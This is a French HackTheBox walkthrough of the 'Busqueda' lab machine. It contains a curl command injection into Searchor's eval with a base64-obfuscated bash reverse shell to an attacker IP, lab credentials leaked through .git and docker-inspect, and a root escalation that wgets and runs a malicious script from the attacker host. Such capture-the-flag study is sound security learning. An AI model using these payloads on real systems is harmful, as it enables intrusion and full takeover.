 ```yaml
---
title: Busqueda - Easy (Linux)
categories:
- Write-up
- HackTheBox
tags:
- hack-the-box
- linux
- htb
- web
---
```


### Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On voit que le site tourne sous apache. Que c'est probablement un site flask.

## Le site.

Le site est un site de recherche. Après un simple ctrl + u on voit qu'il est basé sur un projet "searchor".

On va sur internet et, muni de la version, on tombe directement sur une vulnérabilité.

Le projet utilise la fonction très très dangereuse "eval", ce qui nous permet d'exécuter n'importe quelle commande sur le serveur, via une SSTI, en commentant le reste du code source.

```bash
curl -s -X POST http://searcher.htb/search -d "engine=Google&query=',__import__('os').system('echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzQvNDI0MiAwPiYxJw==|base64 -d|bash -i'))#toto"
```

Source : https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh

On obtient donc un reverse shell et le premier flag.

## Élévation de privilèges.

```bash
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks


drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 Jun  8 12:28 /var/www/app/.git
```

Il n'y a rien avec pspy. Par contre on voit qu'il y a gitea en regardant les sous domaines.

Après plusieurs recherches, il s'avère qu'il faut avoir un mot de passe car sans cela on ne peut rien faire.

### Mot de passe de svc.

Il faut chercher dans le dossier .git. Dedans il y a un mot de passe qu'on peut réutiliser.

svc:jh1usoih2bkjaspwe92


### Élévation de privilèges : bis

Munis de crédits valides, nous pouvons maintenant réellement nous attaquer à l'élévation de privilèges.


La première chose que nous essayons c'est `sudo -l` :

```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
    ```

=> On peut donc exécuter un script python avec les droits root.

Si on essaye ce script, nous avons trois commandes de disponibles :

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
     ```

- `docker-ps`: analogue au vrai `docker ps`, va nous donner des informations sur les containers docker qui tournent.
- `docker-inspect`: idem, va nous donner des informations détaillées sur tel ou tel container.
- `full-checkup`: va faire un check-up un peu nullos.

docker-inspect :

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   5 months ago   Up 16 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   5 months ago   Up 16 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

On a donc deux containers. Le premier est gitea, qu'on avait déjà croisé en lisant /etc/hosts.

Le second un container mysql.

Le site de gitea est accessible via "gitea.searcher.htb". Il s'agit d'une instance du logiciel de gestion de projet.

On peut s'y connecter en testant plusieurs user de croisés :

svc:jh1usoih2bkjaspwe92
administrator:jh1usoih2bkjaspwe92 (c'est lui qui a push l'appli searcher)
cody:jh1usoih2bkjaspwe92 (on chope le nom en lisant .gitconfig dans le /home de svc)

Le dernier fonctionne, sauf qu'il n'est pas très intéressant.


La commande docker-inspect va nous aider à rendre le tout beaucoup plus intéressant :

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {{.Config}} gitea
{960873171e2e   false false false map[22/tcp:{} 3000/tcp:{}] false false false [USER_UID=115 USER_GID=121 GITEA__database__DB_TYPE=mysql GITEA__database__HOST=db:3306 GITEA__database__NAME=gitea GITEA__database__USER=gitea GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin USER=git GITEA_CUSTOM=/data/gitea] [/bin/s6-svscan /etc/s6] <nil> false gitea/gitea:latest map[/data:{} /etc/localtime:{} /etc/timezone:{}]  [/usr/bin/entrypoint] false  [] map[com.docker.compose.config-hash:e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515 com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:server com.docker.compose.version:1.29.2 maintainer:maintainers@gitea.io org.opencontainers.image.created:2022-11-24T13:22:00Z org.opencontainers.image.revision:9bccc60cf51f3b4070f5506b042a3d9a1442c73d org.opencontainers.image.source:https://github.com/go-gitea/gitea.git org.opencontainers.image.url:https://github.com/go-gitea/gitea]  <nil> []}

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {{.Config}} mysql_db
{f84a6b33fb5a   false false false map[3306/tcp:{} 33060/tcp:{}] false false false [MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF MYSQL_USER=gitea MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh MYSQL_DATABASE=gitea PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin GOSU_VERSION=1.14 MYSQL_MAJOR=8.0 MYSQL_VERSION=8.0.31-1.el8 MYSQL_SHELL_VERSION=8.0.31-1.el8] [mysqld] <nil> false mysql:8 map[/var/lib/mysql:{}]  [docker-entrypoint.sh] false  [] map[com.docker.compose.config-hash:1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:db com.docker.compose.version:1.29.2]  <nil> []}
```

On a deux mots de passe qui sont exposés. On va pouvoir utiliser l'un des deux pour se connecter en tant qu'administrateur sur l'instance gitea.

Dans cette instance, on dispose des scripts qui sont présents dans le dossier /opt/scripts.

Dont celui exécutable avec les droits root.

La chose que l'on remarque quasi immédiatement, c'est le script full-checkup.sh est exécuté via un chemin d'accès relatif.

On peut donc créer notre propre script avec notre reverse shell dedans.

```bash
svc@busqueda:~$ wget http://10.10.14.74:4545/full-checkup.sh && chmod +x full-checkup.sh && sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
--2023-06-12 11:13:44--  http://10.10.14.74:4545/full-checkup.sh
Connecting to 10.10.14.74:4545... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/x-sh]
Saving to: ‘full-checkup.sh’

full-checkup.sh                                            100%[========================================================================================================================================>]     250  --.-KB/s    in 0s      

2023-06-12 11:13:44 (32.4 MB/s) - ‘full-checkup.sh’ saved [250/250]
```

Terminé !
